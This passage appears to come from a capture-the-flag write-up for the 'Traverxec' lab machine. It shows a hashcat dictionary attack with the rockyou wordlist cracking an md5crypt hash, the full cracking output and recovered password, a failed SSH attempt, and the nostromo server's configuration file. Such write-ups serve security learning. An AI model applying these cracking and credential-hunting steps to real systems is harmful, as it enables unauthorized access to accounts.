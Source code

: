 ```
```
After that we do a quick dictionary attack using hashcat and the famous rockyou dictionary, after a few minutes we got the password in clear text form.
```
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me

Session..........: hashcat
Status...........: Cracked
Hash.Type........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
Time.Started.....: Fri Apr 10 05:42:43 2020 (14 mins, 19 secs)
Time.Estimated...: Fri Apr 10 05:57:02 2020 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    12279 H/s (10.11ms) @ Accel:256 Loops:125 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 10776576/14344387 (75.13%)
Rejected.........: 0/10776576 (0.00%)
Restore.Point....: 10775552/14344387 (75.12%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:875-1000
Candidates.#1....: Nursemom75 -> Nov2599

Started: Fri Apr 10 05:42:30 2020
Stopped: Fri Apr 10 05:57:03 2020
```
Armed with the password I jump right at a terminal and tried to SSH into the machine with
that user and password combination, sadly that did not work seems like David does not
reuse passwords :'( what a bummer.

## Getting user ##
After lurking around, the configuration files for the nostromo server revealed something
interesting.
```
cat /var/nostromo/conf/nhttpd.conf
# MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html

# LOGS [OPTIONAL]

logpid			logs/nhttpd.pid

# SETUID [RECOMMENDED]

user			www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]

```